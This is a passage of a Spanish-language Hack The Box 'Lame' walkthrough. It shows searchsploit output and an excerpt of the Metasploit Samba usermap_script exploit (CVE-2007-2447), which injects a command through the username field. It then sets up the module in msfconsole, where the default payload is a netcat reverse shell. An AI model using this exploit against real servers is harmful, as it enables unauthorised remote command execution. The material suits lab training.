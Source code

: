 ```sh
  Exploit: Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
      URL: https://www.exploit-db.com/exploits/16320
     Path: /opt/exploitdb/exploits/unix/remote/16320.rb
    Codes: CVE-2007-2447, OSVDB-34700
 Verified: True
File Type: Ruby script, ASCII text
Copied to: /home/guise/HTB/Machines/Linux/Lame/scripts/16320.rb


❯ ls
 16320.rb
❯ mv 16320.rb samba.rb
❯ cat samba.rb -l ruby

... SNIP ....
def exploit

    connect

    # lol?
    username = "/=`nohup " + payload.encoded + "`"
    begin
        simple.client.negotiate(false)
        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
        # nothing, it either worked or it didn't ;)
    end
... SNIP ....
```

Parece que hay una inyección de comandos a la hora de añadir el usuario. Usa el comando **nohup** antes para no perder la conexión.  
Lanzemos el metaexploit en esta ocasión:

```sh
> msfconsole

[msf](Jobs:0 Agents:0) >> search samba 3.0.20

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script

[msf](Jobs:0 Agents:0) >> use 0
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
[msf](Jobs:0 Agents:0) exploit(multi/samba/usermap_script) >> show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   139              yes       The target port (TCP)


```